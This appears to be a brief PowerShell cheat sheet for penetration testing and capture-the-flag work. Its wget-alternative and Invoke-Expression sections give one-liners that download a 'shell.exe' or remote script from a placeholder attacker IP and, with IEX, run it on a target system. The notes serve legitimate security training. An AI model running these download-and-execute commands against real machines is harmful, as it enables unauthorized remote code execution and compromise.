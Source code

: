# PowerShell
This new section is for all Microsoft Powershell-based techniques and syntax used during penetration testing and capture the flag.
## List CPU Architecture
```
PS > 
$ENV:PROCESSOR_ARCHITECTURE
AMD64
```
## List ALL Files
```
PS> ls -Force
```
## WGET Alternative
```
PS > Invoke-WebRequest -Uri "http://(ATTACKER IP ADDRESS)/shell.exe" -OutFile 'C:\path\to\writeable\dir\shell.exe'
```
## Invoke Expression
The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without Invoke-Expression, a string submitted at the command line would be returned (echoed) unchanged.
```
PS C:\Target-System> IEX(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
OR
```
PS C:\Target-System> Invoke-Expression(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
